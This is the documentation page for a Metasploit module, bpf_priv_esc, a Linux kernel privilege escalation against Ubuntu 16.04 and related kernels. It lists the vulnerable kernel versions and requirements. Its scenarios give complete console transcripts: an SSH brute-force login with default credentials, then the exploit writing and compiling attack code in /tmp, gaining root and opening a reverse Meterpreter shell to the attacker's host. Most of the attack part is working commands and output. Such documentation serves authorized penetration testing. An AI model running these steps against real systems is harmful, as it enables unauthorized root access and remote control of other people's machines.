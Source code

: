 ## Notes

This module (and the original exploit) are written in several parts: hello, doubleput, and suidhelper.

## Creating A Testing Environment

There are a few requirements for this module to work:

  1. CONFIG_BPF_SYSCALL=y must be set in the kernel (default on Ubuntu 16.04 (Linux 4.4.0-38-generic))
  2. kernel.unprivileged_bpf_disabled can't be set to 1 (default on Ubuntu 16.04 (Linux 4.4.0-38-generic))
  3. fuse needs to be installed (non-default on Ubuntu 16.04 (Linux 4.4.0-38-generic))
  
  Using Ubuntu 16.04, simply `sudo apt-get install fuse` and you're all set!

This module has been tested against:

  1. Ubuntu 16.04 linux-image-4.4.0-38-generic (pre-compile & live compile)
  2. Ubuntu 16.04 (default kernel) linux-image-4.4.0-21-generic (pre-compile & live compile)

This module was not tested against, but may work against:

  1. Fedora 24 < [kernel-4.5.4-300.fc24](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  2. Fedora 23 < [kernel-4.5.5-201.fc23](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  3. Fedora 22 < [kernel-4.4.10-200.fc22](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  4. Debian >= 4.4~rc4-1~exp1, < Fixed in version [4.5.3-1](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=823603)
  5. Ubuntu 14.04.1 <= [4.4.0-22.39](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1578705/comments/3)

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/bpf_priv_esc`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **MAXWAIT**

  The first stage of this priv esc can take ~35seconds to execute.  This is the timer on how long we should wait till we give up on the first stage finishing.  Defaults to 120 (seconds)

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to Auto

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-38-generic)

#### Initial Access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set rhosts 192.168.199.130
    rhosts => 192.168.199.130
    msf auxiliary(ssh_login) > set username ubuntu
    username => ubuntu
    msf auxiliary(ssh_login) > set password ubuntu
    password => ubuntu
    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare) Linux ubuntu 4.4.0-38-generic #57-Ubuntu SMP Tue Sep 6 15:42:33 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.199.131:39175 -> 192.168.199.130:22) at 2016-09-27 12:25:31 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

In this scenario, gcc and libfuse-dev are both installed so we can live compile on the system.

    msf auxiliary(ssh_login) > use exploit/linux/local/bpf_priv_esc
    msf exploit(bpf_priv_esc) > set verbose true
    verbose => true
    msf exploit(bpf_priv_esc) > set session 1
    session => 1
    msf exploit(bpf_priv_esc) > set lhost 192.168.199.131
    lhost => 192.168.199.131
    msf exploit(bpf_priv_esc) > exploit
    
    [*] Started reverse TCP handler on 192.168.199.131:4444 
    [+] CONFIG_BPF_SYSCAL is set to yes
    [+] kernel.unprivileged_bpf_disabled is NOT set to 1
    [+] fuse is installed
    [+] libfuse-dev is installed
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Writing files to target
    [*] Writing hello to /tmp/hello.c
    [*] Max line length is 65537
    [*] Writing 2760 bytes in 1 chunks of 9767 bytes (octal-encoded), using printf
    [*] Writing doubleput to /tmp/doubleput.c
    [*] Max line length is 65537
    [*] Writing 5182 bytes in 1 chunks of 18218 bytes (octal-encoded), using printf
    [*] Writing suidhelper to /tmp/suidhelper.c
    [*] Max line length is 65537
    [*] Writing 352 bytes in 1 chunks of 1219 bytes (octal-encoded), using printf
    [*] Compiling all modules on target
    [*] Writing payload to /tmp/AyDJSaMM
    [*] Max line length is 65537
    [*] Writing 188 bytes in 1 chunks of 506 bytes (octal-encoded), using printf
    [*] Starting execution of priv esc.  This may take about 120 seconds
    [+] got root, starting payload
    [*] Transmitting intermediate stager...(126 bytes)
    [*] Sending stage (2412016 bytes) to 192.168.199.130
    [*] Meterpreter session 2 opened (192.168.199.131:4444 -> 192.168.199.130:43734) at 2016-09-27 12:26:06 -0400
    [*] Cleaning up...
    
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0
    meterpreter > sysinfo
    Computer     : 192.168.199.130
    OS           : Ubuntu 16.04 (Linux 4.4.0-38-generic)
    Architecture : x86_64
    Meterpreter  : x64/linux
    
#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, however in this case we look at a system that doesn't have libfuse-dev (ubuntu) installed

    msf auxiliary(ssh_login) > use exploit/linux/local/bpf_priv_esc
    msf exploit(bpf_priv_esc) > set verbose true
    verbose => true
    msf exploit(bpf_priv_esc) > set session 1
    session => 1
    msf exploit(bpf_priv_esc) > set lhost 192.168.199.131
    lhost => 192.168.199.131
    msf exploit(bpf_priv_esc) > exploit
    
    [*] Started reverse TCP handler on 192.168.199.131:4444 
    [+] CONFIG_BPF_SYSCAL is set to yes
    [+] kernel.unprivileged_bpf_disabled is NOT set to 1
    [+] fuse is installed
    [-] libfuse-dev is not installed.  Compiling will fail.
    [*] Dropping pre-compiled exploit on system
    [*] Writing pre-compiled binarys to target
    [*] Max line length is 65537
    [*] Writing 9576 bytes in 1 chunks of 24954 bytes (octal-encoded), using printf
    [*] Max line length is 65537
    [*] Writing 13920 bytes in 1 chunks of 36828 bytes (octal-encoded), using printf
    [*] Max line length is 65537
    [*] Writing 8840 bytes in 1 chunks of 21824 bytes (octal-encoded), using printf
    [*] Writing payload to /tmp/AyDJSaMM
    [*] Max line length is 65537
    [*] Writing 188 bytes in 1 chunks of 506 bytes (octal-encoded), using printf
    [*] Starting execution of priv esc.  This may take about 120 seconds
    [+] got root, starting payload
    [-] This exploit may require process killing of 'hello', and 'doubleput' on the target
    [-] This exploit may requires manual umounting of /tmp/fuse_mount via 'fusermount -z -u /tmp/fuse_mount' on the target
    [-] This exploit may requires manual deletion of /tmp/fuse_mount via 'rm -rf /tmp/fuse_mount' on the target
    [*] Transmitting intermediate stager...(126 bytes)
    [*] Sending stage (2412016 bytes) to 192.168.199.130
    [*] Meterpreter session 2 opened (192.168.199.131:4444 -> 192.168.199.130:55522) at 2016-09-28 08:08:04 -0400
    
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0
